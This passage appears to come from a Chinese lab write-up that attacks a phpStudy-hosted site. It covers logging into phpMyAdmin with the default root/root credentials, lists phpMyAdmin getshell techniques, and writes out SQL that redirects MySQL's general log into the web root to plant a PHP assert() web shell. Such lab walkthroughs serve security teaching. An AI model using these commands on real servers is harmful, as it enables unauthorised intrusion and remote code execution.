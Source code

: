 此时我们连接index.php即可获得shell

[![](https://p3.ssl.qhimg.com/t0189891ea9e9e05478.png)](https://p3.ssl.qhimg.com/t0189891ea9e9e05478.png)

此时呢，我们先不往下进行，既然是靶机，我们就应该多去尝试一下发掘它其他的漏洞，蚁剑连接以后可以发现这是一个phpstudy搭建的网站，那么按照经验我们知道应该会有默认的phpmyadmin在，我们尝试访问：

[![](https://p5.ssl.qhimg.com/t014b2c259795817f84.png)](https://p5.ssl.qhimg.com/t014b2c259795817f84.png)

发现猜测的没错，那么默认密码呢，root、root发现竟然也进去了，那么就来复习一下phpmyadmin后台getshell吧。phpmyadmin后台getshell一般有以下几种方式：

1、select into outfile直接写入<br>
2、开启全局日志getshell<br>
3、使用慢查询日志getsehll<br>
4、使用错误日志getshell<br>
5、利用phpmyadmin4.8.x本地文件包含漏洞getshell

我们先来看一下第一种，直接写shell

[![](https://p4.ssl.qhimg.com/t01f8b1833563616323.png)](https://p4.ssl.qhimg.com/t01f8b1833563616323.png)

发现是不行的，而且该变量为只读，所以只能放弃。

再来看一下第二种，利用全局变量general_log去getshell

[![](https://p4.ssl.qhimg.com/t01e8ab3e35bfbd0722.png)](https://p4.ssl.qhimg.com/t01e8ab3e35bfbd0722.png)

我们尝试更改日志状态、位置

```
set global general_log=on;# 开启日志

set global general_log_file='C:/phpstudy/www/yxcms/v01cano.php';# 设置日志位置为网站目录
```

发现已经成功更改

[![](https://p2.ssl.qhimg.com/t01458dcf047fe4f237.png)](https://p2.ssl.qhimg.com/t01458dcf047fe4f237.png)

此时执行如下语句即可getshell

```
select '&lt;?php assert($_POST["a"]); ?&gt;'
```

剩下的就不再去测试了，大家有兴趣的可以去自行尝试

拿到shell之后我们就该提权了



## 杀入内网

[![](https://p1.ssl.qhimg.com/t01b081092a040254ee.png)](https://p1.ssl.qhimg.com/t01b081092a040254ee.png)
